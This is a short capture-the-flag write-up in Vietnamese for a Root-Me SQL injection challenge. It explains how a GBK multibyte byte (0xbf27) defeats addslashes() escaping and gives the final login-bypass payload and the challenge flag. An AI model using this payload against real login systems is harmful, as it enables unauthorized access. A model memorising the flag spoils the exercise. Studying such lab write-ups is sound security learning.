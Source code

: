# [SQL injection - Authentication - GBK](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-authentication-GBK)

## Solutions

Thay đổi body của post request thành `login[]=&password[]=`:

- `addslashes() expects parameter 1 to be string, array given in <b>/challenge/web-serveur/ch42/utils.php`
- `md5() expects parameter 1 to be string, array given in <b>/challenge/web-serveur/ch42/index.php`
- => biến login sẽ được đưa vào hàm addslashes() còn password sẽ được đưa vào hàm md5()

Hàm addslashes sẽ thêm backslash vào trước các kí tự `', ", \, NUL`

Dựa vào từ khóa GBK, tìm được bài [này](https://stackoverflow.com/questions/5741187/sql-injection-that-gets-around-mysql-real-escape-string):

- 0xbf27 `¿'` qua addslashes() sẽ thành 0xbf5c27 `¿\'`
- 0xbf5c27 ở gbk là `縗'`

=> dùng cách này có thể thêm được ký tự `'` vào query

Final: `login=%bf%27+or+1%3d1+--+&password=a`

Flag: `iMDaFlag1337!`

## References

- <https://hell38vn.wordpress.com/2019/06/12/root-mesql-injection-authentication-gbk-super-hard-3/>
- <https://stackoverflow.com/questions/5741187/sql-injection-that-gets-around-mysql-real-escape-string>
